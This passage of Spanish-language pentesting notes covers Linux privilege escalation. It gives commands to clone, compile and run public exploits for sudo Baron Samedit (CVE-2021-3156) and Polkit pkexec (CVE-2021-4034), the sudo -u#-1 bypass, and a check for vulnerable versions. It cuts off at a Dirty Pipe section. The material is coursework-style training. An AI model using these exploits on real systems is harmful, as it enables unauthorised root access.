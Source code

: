 	```bash
	git clone https://github.com/blasty/CVE-2021-3156.git
	cd CVE-2021-3156
	# yo añado el static a la siguiente línea para compilarlo localmente en el Makefile
	gcc -std=c99 -static -o sudo-hax-me-a-sandwich hax.c
	make
	# Una vez instalado correr el script y nos dará versiones que elegir
	./sudo-hax-me-a-sandwich
	# Por ejemplo
	./sudo-hax-me-a-sandwich 1
	```
#### Sudo policy bypass
- Afecta a versiones anteriores de sudo a `1.8.28`
- Si se introduce un id negativo a la hora de ejecutar un comando, este se interpreta como root. 
- Supongamos el siguiente ejemplo: 
	```bash
	sudo -l
	User htb-student may run the following commands on ubuntu:
	    (ALL, !root) /bin/ncdu
	```
- Ejecutar 
	```bash
	sudo -u#-1 /bin/ncdu
	```
	seguido de la letra `b` (gtfobins) nos daría permisos de adminsitrador
### Polkit - pkexec
Es un servicio de autorización que permite la comunicación entre el software del usuario y los componentes del sistema si el software del usuario está autorizado. Viene con programas adicionales, como `pkexec`,  que puede ejecutar un programa con los derechos de otro usuario. 
- Ejemplo
	```bash
	# Funcionamiento generico
	pkexec -u <usuario> <comando>
	# Ejecutaría id como root
	pkexec -u root id
	```
- Podemos comprobar si `pkexec`  vulnerable si la versión es anterior a Enero de 2022 (`0.105-26ubuntu1.2` para ubuntu)
	```bash
	apt list --installed | grep policykit
	```
- Explotación:
	```bash
	git clone https://github.com/arthepsy/CVE-2021-4034.git
	cd CVE-2021-4034
	gcc cve-2021-4034-poc.c -static -o poc
	```
### Dirty pipe
Una vulnerabilidad en el kernel de linux permite a a usuarios no autorizados a escribir en ficheros con permisos de root en linux.
- Comprobamos si es vulnerable
	```bash